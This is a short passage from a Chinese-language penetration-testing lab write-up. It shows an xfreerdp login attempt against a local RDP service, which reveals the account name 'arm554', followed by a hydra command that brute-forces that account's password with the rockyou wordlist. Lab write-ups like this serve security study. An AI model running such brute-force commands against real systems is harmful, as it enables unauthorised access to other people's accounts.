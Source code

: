 ```bash
xfreerdp /v:127.0.0.1 -sec-nla /u:""
```

![Alt text](/img/game/TESTLAB/TESTLAB11/1512715662641.png)

登陆失败之后，得到账户为`arm554`,进行爆破：

```bash
root@kali:~# hydra -t 8 -V -l arm554 -P /usr/share/wordlists/rockyou.txt rdp://127.0.0.1
```

![Alt text](/img/game/TESTLAB/TESTLAB11/1512716038392.png)
